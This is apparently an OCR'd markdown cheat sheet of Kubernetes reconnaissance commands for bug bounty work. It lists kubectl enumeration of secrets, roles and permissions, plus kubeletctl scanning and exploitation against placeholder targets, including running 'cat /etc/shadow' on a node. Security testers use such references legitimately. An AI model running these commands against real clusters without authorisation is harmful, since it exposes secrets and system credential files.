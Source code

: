 # Kubernetes Reconnaissance Tools for Bug Bounty

## CLI Tools

### 1. kubectl
The official Kubernetes command-line tool for interacting with clusters.
```bash
# Basic cluster info
kubectl cluster-info
kubectl version
kubectl get nodes
kubectl get namespaces
kubectl get pods --all-namespaces

# Resource enumeration
kubectl get all --all-namespaces
kubectl get secrets --all-namespaces
kubectl get configmaps --all-namespaces
kubectl get serviceaccounts --all-namespaces

# RBAC enumeration
kubectl get clusterroles
kubectl get clusterrolebindings
kubectl get roles --all-namespaces
kubectl get rolebindings --all-namespaces

# Check permissions
kubectl auth can-i --list
kubectl auth can-i create pods
kubectl auth can-i get secrets --all-namespaces
```

### 2. kubeletctl
Tool for scanning and exploiting kubelet.
```bash
# Installation
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64
chmod +x kubeletctl_linux_amd64
mv kubeletctl_linux_amd64 /usr/local/bin/kubeletctl

# Scanning
kubeletctl scan --cidr 10.0.0.0/24
kubeletctl scan rhost <target-ip>

# Exploitation
kubeletctl pods -s <target-ip>
kubeletctl exec "whoami" -s <target-ip> -p <pod-name> -c <container-name>
kubeletctl run "cat /etc/shadow" -s <target-ip>
```
